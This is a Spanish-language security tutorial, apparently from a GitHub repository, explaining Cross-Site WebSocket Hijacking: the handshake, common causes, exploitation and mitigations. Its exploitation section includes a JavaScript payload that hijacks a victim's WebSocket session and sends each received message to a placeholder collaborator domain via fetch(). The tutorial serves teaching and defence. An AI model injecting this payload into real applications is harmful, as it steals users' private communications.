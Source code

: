 ## Cross Site WebSocket Hijacking

## Introducción
Para entender esta vulnerabilidad, primero hay que tener claro que es un *WebSocket*, este es un protocolo que opera en la capa TCP, su objetivo es comunicar dos redes (sockets) de forma controlada de una forma bidireccional. 
Este protocolo se usa por ejemplo en la mensajería instantánea.
Mientras que en una petición HTTP la comunicación va en el formato mensaje-respuesta:
![http](https://www.ionos.es/digitalguide/fileadmin/DigitalGuide/Schaubilder/visual-representation-of-how-http-works.png)

En una comunicación *WebSocket* , se hace un **WebSocket Protocol Handshake**, en el que el Cliente envía una solicitud HTTP al servidor para actualizar la comunicación actual a una de tipo *WebSocket*.
```http
GET /chat HTTP/1.1
Host: server.example.com
Upgrade: websocket
Connection: Upgrade 
Sec-WebSocket-Key: x3JJHMbDL1EzLkh9GBhXDw==
Sec-WebSocket-Version: 13
Origin: http://example.com

```

- **Upgrade**: Indica que el cliente desea cambiar de HTTP a WebSocket.
- **Connection**: Debe incluir el valor "Upgrade" para señalar que la conexión se va a cambiar.
- **Sec-WebSocket-Key**: Una clave Base64 generada por el cliente, que el servidor usará para crear una respuesta de aceptación.
- **Sec-WebSocket-Version**: Indica la versión del protocolo WebSocket que el cliente puede entender. La versión más común es la 13.

Si el servidor soporta el protocolo WebSocket y acepta la solicitud de cambio de protocolo, responderá con un código de estado HTTP 101 Switching Protocols. La respuesta incluirá:
```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: HSmrc0sMlYUkAGmm5OPpG2HaGWk=

```

- **Upgrade**: Confirma que se realizará un cambio a WebSocket.
- **Connection**: Debe contener el valor "Upgrade".
- **Sec-WebSocket-Accept**: Este es un campo clave. El servidor crea este valor combinando la `Sec-WebSocket-Key` enviada por el cliente con una cadena específica definida por el protocolo ("258EAFA5-E914-47DA-95CA-C5AB0DC85B11"), aplicando SHA-1 a esta cadena combinada, y luego codificando el resultado con Base64. Esto sirve como prueba de que el servidor entiende la solicitud WebSocket.

A partir de ahora la comunicación será en tiempo real:
![ws](https://www.ionos.es/digitalguide/fileadmin/DigitalGuide/Schaubilder/visual-representation-of-how-websocket-works.png)

Como define [Ionos](https://www.ionos.es/digitalguide/paginas-web/desarrollo-web/que-es-websocket/), WebSocket puede entenderse como un canal de comunicación abierto, en el cual queda abierta una conexión activa tras el handshake inicial entre el cliente y el servidor. Así, el servidor también puede enviar información nueva al cliente sin que este tenga que solicitarlo previamente cada vez.

Una vez que entendemos como funciona el protocolo, ¿ en que se basa **CSWSH** ?
Esta vulnerabilidad se basa en falsificar un *WebSocket Handshake* (si esta se basa únicamente en cookies HTTP, sin protección CSRF ) para que el atacante consiga introducirse en mitad del canal de comunicación, de esta forma puede leer y enviar mensajes como un usuario legitimo.

![example](./utils/example.png)

## Causas Comunes

Las causas comunes del ataque de Cross-Site WebSocket Hijacking (CSWSH) se centran en la forma en que las aplicaciones web manejan las conexiones WebSocket y cómo se implementan las medidas de seguridad en torno a ellas. Algunas de las principales causas incluyen:

1. **Falta de Autenticación y Autorización Estricta**: Si una aplicación no verifica adecuadamente si una solicitud de WebSocket proviene de un usuario autenticado o no realiza una comprobación de autorización para cada solicitud, un atacante podría aprovechar este descuido para interceptar o manipular la comunicación WebSocket.

2. **Política de Mismo Origen (Same-Origin Policy) Incompleta para WebSockets**: A diferencia de las solicitudes HTTP tradicionales, las conexiones WebSocket no están completamente sujetas a la política de mismo origen. Esto significa que un script malicioso podría establecer una conexión WebSocket con un servidor desde un dominio diferente, lo que podría facilitar un ataque de hijacking si el servidor no verifica el origen de la conexión de manera efectiva.

3. **Configuración Incorrecta de Cookies y Sesiones**: Si las cookies de sesión se configuran sin el atributo `SameSite` (para no incluir la cookie de un sitio en solicitudes a otros sitios web distintos) o con un `SameSite` permisivo, un sitio malicioso podría realizar solicitudes a otro sitio en el contexto de la sesión del usuario, potencialmente permitiendo un ataque de hijacking a través de WebSockets.

4. **Implementaciones de Cliente y Servidor Inseguras**: Las bibliotecas o frameworks que no siguen las mejores prácticas de seguridad en la implementación de conexiones WebSocket pueden dejar a las aplicaciones vulnerables a ataques. Esto incluye la falta de encriptación (usando WS (comunicación sin cifrar) en lugar de WSS (comunicación cifrada)) o la implementación incorrecta de la lógica de autenticación y autorización.

5. **Inyección de Scripts Cross-Site (XSS)**: Si una aplicación es vulnerable a XSS, un atacante podría inyectar un script malicioso que establezca conexiones WebSocket no autorizadas. Esto podría permitir al atacante realizar acciones en nombre del usuario sin su conocimiento.


## Pasos de explotación

Como ya hemos comentado, el protocolo *WebSocket*, no viene limitado por la política CORS, lo cual permite que una web infectada , o un XSS pueda hacer un *WebSocket Handshake*, que al hacerse por vía HTTP, incluirá la cookie de la victima, haciendo que el servidor valide la conexión.
Esto hará que el atacante pueda hacerse pasar por un usuario legítimo de la comunicación, podrá tanto leer como enviar mensajes.

#### Escenario Hipotético

Imagina que tienes una aplicación de chat en tiempo real que utiliza WebSockets para comunicación bidireccional entre el cliente y el servidor. La aplicación permite a los usuarios enviar mensajes a otros usuarios en tiempo real. Sin embargo, la aplicación no verifica adecuadamente el origen de las conexiones WebSocket ni restringe las acciones basadas en sesiones autenticadas específicamente para esas conexiones.
Supongamos que tampoco se valida bien el campo de mensajes y nos encontramos con una [XSS](../XSS/), un atacante podría inyectar un código asi:
```JavaScript
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
websocket.send("READY"); 
}
function handleReply(event) {
//Obtenemos los datos robados
fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```

El mensaje *READY* es una especie de convención, pero este mensaje es diferente para cada servidor *WebSocket*, para ver que mensaje enviar, puedes usar BurpSuite para interceptar la comunicación y ver que mensajes se envían.
Si la aplicación de chat no verifica correctamente el origen de la solicitud ni valida que la solicitud de WebSocket se basa en una sesión autenticada válida específicamente para esa conexión, el navegador del usuario establecerá la conexión WebSocket como si fuera una solicitud legítima.
En este caso el usuario que envía el ataque forma parte de la comunicación legítima, lo que obtendrá son datos de la otra parte de la comunicación.

Si este script lo ejecutase una página web maliciosa (sin tener que haber un XSS de por medio), un tercero se metería en la comunicación, comprometiendo datos sensibles de ambas partes.


## Implicaciones

Como ya hemos comentado, las implicaciones varían dependiendo de la aplicación y el servidor que gestione el protocolo, se puede derivar a ataques como CSRF, XSS, Exfiltración de datos...


## Mitigación

Para protegerse contra el Cross-Site WebSocket Hijacking, los desarrolladores y administradores de sitios web pueden implementar varias estrategias:

- **Autenticación en el Nivel de WebSocket**: Realizar una autenticación adicional después de establecer la conexión WebSocket para verificar que el usuario y la sesión son legítimos. Esto puede incluir el uso de tokens (CSRF) de autenticación que el servidor valida antes de permitir cualquier operación a través del WebSocket.

- **Orígenes de Confianza**: Restringir las conexiones WebSocket solo a orígenes de confianza. Esto se puede lograr mediante la validación del campo `Origin` en los encabezados de solicitud de WebSocket para asegurarse de que solo se acepten conexiones de orígenes permitidos.

- **Políticas de Seguridad del Contenido (CSP)**: Implementar políticas CSP estrictas que restrinjan la ejecución de scripts solo a fuentes confiables, lo que puede ayudar a prevenir la inyección de scripts maliciosos en primer lugar.